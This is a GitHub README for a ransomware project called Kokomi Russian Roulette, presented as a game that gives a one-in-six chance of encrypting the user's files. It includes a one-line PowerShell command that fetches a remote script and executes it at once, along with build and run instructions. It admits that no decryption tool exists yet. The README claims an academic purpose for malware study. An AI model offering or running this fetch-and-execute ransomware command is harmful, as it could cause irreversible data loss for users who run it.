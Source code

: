 # Kokomi Russian Roulette
<p align="center">
<img src="resources/header.png" alt="drawing" width="500"/><br>
</p>

## What is?
It is a simple ransomware, with the idea of being a game inspired by the classic Russian roulette. 6 cabins, 1 chance to be encrypted, would you dare to play?
## Warning
This software is licensed under GPL3. But under no circumstances should it be used for evil. Its purpose is purely academic for the study of malware development. I disclaim any responsibility for misuse of this software.
## Usage
**This script only works in Windows OS, please only perform tests on your own virtual machine.**<br>
<br>
- One line with powershell
```powershell
irm https://raw.githubusercontent.com/quantumwavves/Kokomi-Russian-Roulette/master/bin/oneline/krr-oneline.ps1 | iex
```
- Normal Usage
```powershell
$ .\kokomi-russian-rulette.exe
```
- Dev<br>
  I recommend using a python virtual enviroment
```console
#Install dependecies
$ source env/Scripts/activate
$ pip install -r requirements.txt
$ python krr-fernet.py
```
## Decrypt files
The decryption program is not yet created, but is in process.<br>
KRR creates a random key for each run, this is stored in the $env:temp directory or also known as %temp%. The key is saved as a ``sngmy.png`` file.

## To do list
- [ ] Create decrypter program
- [ ] Optimize execution times
- [ ] Create port for C++ or C
## Inspiration:
- This kokomiware was inspired in [NaGa](https://github.com/ic4rta/NaGa)
- [Sangonomiya Kokomi](https://genshin-impact.fandom.com/wiki/Sangonomiya_Kokomi) (One of my favorite characters from Genshin Impact)
